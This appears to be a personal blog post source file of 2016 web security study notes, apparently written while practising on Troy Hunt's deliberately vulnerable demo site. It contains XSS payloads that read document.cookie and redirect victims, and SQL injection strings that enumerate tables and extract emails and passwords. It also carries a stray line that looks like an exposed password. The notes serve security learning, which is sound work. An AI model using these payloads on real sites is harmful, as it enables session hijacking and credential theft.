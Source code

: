 ```yaml
---
layout: post.hbs

title: Security Notes
url: security-notes
description: ""

posted: 2016-01-27T13:30

post:
- post

published: true

categories:
  - "Web Development"
  - "Preprocessors"

---
```


{{#markdown}}
pw: 3ara

Securtity Risks on Account Page:

- Mixed Content on HTTPS
- Password cannot be longer than 10 characters


XSS Attack
Hijacking search forms, through inserting JS into the page.  Works on sites that use things like ?search=

Could make a request by using an img path to make a request (with any cookie info in).
- Can use document.cookie to get the auth code of anyone who clicks your link

Way to stop it = encoding for JS/HTML so that any text coming in gets encoded and not output as code.

- Check out the OWASP XXS Filter Evasion Cheat Sheet

window.location = 'http://lmgtfy.com/?q=I%E2%80%99m+a+dumbass+for+clicking+that+link';

'); console.log(document.cookie); $('#searchTerm').val('Hello


SQL Injection

http://hackyourselffirst.troyhunt.com/Make/8?orderby=supercarid

select * from supercar where makeid = 8 order by supercarid

havij

select * from sys.tables where makeid = 8 order by supercarid

select top 1 password*1 from userprofile where userid > 1

SELECT @@version

select * from supercar where makeid = 1 AND 1=2 UNION SELECT table_schema, table_name, 1 FROM information_schema.table

select * from supercar order by case when (select count (*) from userprofile) = 1 then powerkw else topspeedkm end desc


V12 'union select 0, concat (email, ' - ', password) COLLATE DATABASE_DEFAULT from userprofile --



Shodan – search engine for connected devices
Elmah – error logs
AsafaWeb

Wappalyser

HSTS preload

report-uri.io – shows CSP (allowed sources)
content-security-policy = -report-only (gives just a report)

{{/markdown}}
